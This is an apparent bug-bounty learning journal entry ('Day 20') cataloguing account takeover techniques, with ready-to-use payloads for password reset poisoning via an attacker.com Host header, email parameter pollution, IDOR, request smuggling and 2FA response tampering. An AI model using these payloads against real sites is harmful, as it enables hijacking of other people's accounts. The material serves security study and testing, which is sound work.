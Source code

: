 `6 January 2023`
## **Day 20 What I Have Learned**
***
## **Account Takeover**:
- Originally Account Takeover (ATO) is an attack whereby cybercriminals take ownership of online accounts using stolen passwords and usernames.
- There are Many Ways To Takeover An Account e.g You can Takeover an Account Using Password Reset Techniques,which Do not require Username and Password.
- Account Takeover is a critical Vulnerability because In some cases There may personal information like (SSN,Personal Information) in the account.
***
## **Password Reset Attacks**
1. Password Reset Token Leak Via Referrer
- Request password reset to your email address
- Click on the password reset link & Don't change The password.
- Click any 3rd party websites(eg: Facebook, twitter).
- Intercept the request in Burp Suite proxy.
- Check if the referer header is leaking password reset token.
2. Account Takeover Through Password Reset Poisoning
- Intercept the password reset request in Burp Suite.
- Add or edit the following headers in Burp Suite : Host: attacker.com, X-Forwarded-Host: attacker.com.
- Forward the request with the modified header
``` js
POST https://example.com/reset.php HTTP/1.1
Accept: */*
Content-Type: application/json
Host: attacker.com
```
- Look for a password reset URL based on the host header like : https://attacker.com/reset-password.php?token=TOKEN
3. Password Reset Via Email Parameter
- The Password Reset Link is Likely to be sent to the Second provided email or Both if the website is Vulnerable.
 ``` js 
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
4. IDOR
- Attacker have to login with their account and go to the Change password feature.
- Start the Burp Suite and Intercept the request Then Send it to the repeater tab and edit the parameters : User ID/email
- Email:
``` js
POST /api/changepass
[...]
("form": {"email":"victim@email.com","password":"securepwd"})
(#Edit The Email To Your Victim's Email)
```
- ID:
``` js
POST /api/changepass id=455 (#Edit the Id number to your Victim one)
[...]
("form": {"email":"attacker@email.com","password":"securepwd"})
```
5. Weak Password Reset Token
- The password reset token should be randomly generated and unique every time. Try to determine if the token expire or if it's always the same, in some cases the generation algorithm is weak and can be guessed. The following variables might be used by the algorithm.
  1. Timestamp
  2. UserID
  3. Email of User
  4. Firstname and Lastname
  5. Date of Birth
  6. Cryptography
  7. Number only
  8. Small token sequence (<6 characters between [A-Z,a-z,0-9])
  9. Token reuse
  10. Token expiration date
6. Password Reset Via Username Collision
- Register on the system with a username identical to the victim's username, but with white spaces inserted before and/or after the username. e.g: "Robin "
- Request a password reset with your malicious username.
- Use the token sent to your email and reset the victim password then Connect to the victim account with the new password.
7. Account takeover due to unicode normalization issue
- Victim account: demo@gmail.com
Attacker account: demⓞ@gmail.com
- [Tool Used To Unicode Characters](https://github.com/tomnomnom/hacks/tree/master/unisub).
- [Unicode pentester cheatsheet](https://gosecure.github.io/unicode-pentester-cheatsheet/)
## **Account Takeover Via Cross Site Scripting**
- Find an XSS inside the application or a subdomain if the cookies are scoped to the parent domain : *.domain.com
- Leak the current sessions cookie
- Authenticate as the user using the cookie
## **Account Takeover Via HTTP Request Smuggling**
1. Use smuggler to detect the type of HTTP Request Smuggling 
``` js
git clone https://github.com/defparam/smuggler.git
cd smuggler
python3 smuggler.py -h
```
2. Craft a request which will overwrite the POST / HTTP/1.1 with the following data:
``` js
GET http://something.burpcollaborator.net  HTTP/1.1
X: 
```
3. Final request could look like the following
``` js
GET /  HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83

0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X

```
## **2FA Bypasses**
1. Response Manipulation
- In response if "success":false Change it to "success":true
2. Status Code Manipulation
- If Status Code is 4xx Try to change it to 200 OK and see if it bypass restrictions
3. [More](https://github.com/Robinx33/365-Days-Challenge/blob/main/Day/Day%201_18%20December%202022.md).
***
## **Resources**
- [Flickr Account Takeover](https://security.lauritz-holtmann.de/advisories/flickr-account-takeover/).
- [10 Password Reset Flaws](https://anugrahsr.github.io/posts/10-Password-reset-flaws/).
- [$6,5k + $5k HTTP Request Smuggling mass account takeover - Slack + Zomato](https://www.youtube.com/watch?v=gzM4wWA7RFo).
- [Hacking Grindr Accounts with Copy and Paste](https://www.troyhunt.com/hacking-grindr-accounts-with-copy-and-paste/).
- [Account Takeover Via Reset Password](https://ashutoshmishra00x0.medium.com/account-takeover-via-reset-password-worth-2000-de085851d81d).
- [Full account takeover worth $1000 Think out of the box](https://mokhansec.medium.com/full-account-takeover-worth-1000-think-out-of-the-box-808f0bdd8ac7).
- [Account Takeovers Believe The Unbelievable](https://medium.com/bugbountywriteup/account-takeovers-believe-the-unbelievable-bb98a0c251a4).
## **Reports**
- [Mass account takeovers using HTTP Request Smuggling](https://hackerone.com/reports/737140) ($6,500).
- [Account takeover via leaked session cookie](https://hackerone.com/reports/745324) ($20,000).
- [Flickr Account Takeover using AWS Cognito API](https://hackerone.com/reports/1342088) ($7,550).

***
## **The End**
